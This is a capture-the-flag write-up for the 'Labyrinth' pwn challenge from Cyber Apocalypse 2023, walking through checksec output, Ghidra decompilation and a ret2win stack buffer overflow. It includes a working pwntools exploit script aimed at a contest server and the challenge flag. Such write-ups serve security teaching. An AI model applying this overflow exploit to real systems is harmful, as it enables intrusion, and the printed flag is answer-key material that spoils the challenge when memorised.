 # Cyber Apocalypse 2023

## Labyrinth

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.
>
>  Author: N/A
>
> [`pwn_labyrinth.zip`](pwn_labyrinth.zip)

Tags: _pwn_

## Solution
The chellange comes with the executable that runs as the service we need to pwn. The first thing is to check what security measurements are in place. In this case no stack canary was found that allows to easily overwrite the return address.

```bash
$ checksec labyrinth
[*] '/home/user/cyberapoc23/pwn/labyrinth/challenge/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

After this we need to get more insight in what the programm is doing. So opening the executable in Ghidra and starting at `main`.

```c++
undefined8 main(void)
{
  int iVar1;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  char *local_18;
  ulong local_10;
  
  setup();
  banner();
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fwrite("\nSelect door: \n\n",1,0x10,stdout);
  for (local_10 = 1; local_10 < 0x65; local_10 = local_10 + 1) {
    if (local_10 < 10) {
      fprintf(stdout,"Door: 00%d ",local_10);
    }
    else if (local_10 < 100) {
      fprintf(stdout,"Door: 0%d ",local_10);
    }
    else {
      fprintf(stdout,"Door: %d ",local_10);
    }
    if ((local_10 % 10 == 0) && (local_10 != 0)) {
      putchar(10);
    }
  }
  fwrite(&DAT_0040248f,1,4,stdout);
  local_18 = (char *)malloc(0x10);
  fgets(local_18,5,stdin);
  iVar1 = strncmp(local_18,"69",2);
  if (iVar1 != 0) {
    iVar1 = strncmp(local_18,"069",3);
    if (iVar1 != 0) goto LAB_004015da;
  }
  fwrite("\nYou are heading to open the door but you suddenly see something on the wall:\n\n\"Fly like a bird and be free!\"\n\nWould you like to change the door you chose?\n\n>> "
         ,1,0xa0,stdout);
  fgets((char *)&local_38,0x44,stdin);
LAB_004015da:
  fprintf(stdout,"\n%s[-] YOU FAILED TO ESCAPE!\n\n",&DAT_00402541);
  return 0;
}
```

The first stage is easy. By choosing the door `69` we are on our way out. But no flag is displayed, so something is missing. Further looking into the decompiled code we find the function `escape_plan`.

```c++
void escape_plan(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  putchar(10);
  fwrite(&DAT_00402018,1,0x1f0,stdout);
  fprintf(stdout,
          "\n%sCongratulations on escaping! Here is a sacred spell to help you continue your journey: %s\n"
          ,&DAT_0040220e,&DAT_00402209);
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n\n");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

Here the flag is printed to screen, but the function is never called. So we need to call the function ourself by overriding the return address (ret2win). When the processor tries to leave `main` it is redirected to `escape_plan` and we get the flag. For this we need to know where the return address is located on the stack. This can typically be done with trial and error by generating repeating patterns for input and checking memory location where the patterns are found. Another way is to just check with Ghidra. Our input is written to `local_38` and here Ghidra already gives us the offset we need to know. So writing a small [`script`](exploit.py) to solve the challenge.

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF("./labyrinth", checksec=False)

if args.REMOTE:
    p = remote("165.227.224.40", 31834)
else:
    p = process(binary.path)

p.sendlineafter(b">> ", b"69")
payload = b"A"*0x38
payload += p64(binary.sym.escape_plan+1)
p.sendlineafter(b">> ", payload)
print(p.recvall().decode())
```

Flag `HTB{3sc4p3_fr0m_4b0v3}`